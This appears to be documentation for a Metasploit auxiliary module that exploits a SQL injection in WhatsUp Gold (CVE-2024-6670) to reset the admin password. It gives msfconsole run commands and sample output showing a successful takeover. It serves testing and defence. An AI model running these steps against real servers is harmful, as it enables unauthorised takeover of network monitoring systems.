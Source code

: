## Vulnerable Application

This module exploits a SQL injection vulnerability in WhatsUp Gold < v24.0.0 (CVE-2024-6670), by changing the password of an existing user
(such as of the default `admin` account) to an attacker-controlled one.

## Testing

The software can be obtained from
[the vendor](https://cdn.ipswitch.com/nm/WhatsUpGold/23.1.3/WhatsUpGold-23.1.3-FullInstall.exe).

Installation instructions are available [here](https://docs.progress.com/bundle/whatsupgold-install-23-1/page/Prior-to-installation.html).

**Successfully tested on**

- WhatsUp Gold v23.1.3 on Windows 22H2
- WhatsUp Gold v23.1.2 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/admin/http/whatsup_gold_sqli 
msf auxiliary(admin/http/whatsup_gold_sqli) > set RHOSTS <IP>
msf auxiliary(admin/http/whatsup_gold_sqli) > run
```

This should update the password of the default `admin` account.

## Options

### USERNAME
The user of which to update the password (default: admin)

### PASSWORD
The new password for the user

## Scenarios

Running the exploit against WhatsUp Gold v23.1.3 on Windows 22H2 should result in an output similar to the following:

```
msf auxiliary(admin/http/whatsup_gold_sqli) > run
[*] Running module against 192.168.217.143

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 23.1.3
[+] New password for admin was successfully set:
	admin:SzESLHhWxKyf
[+] Login at: https://192.168.217.143/NmConsole/#home
[*] Auxiliary module execution completed
```
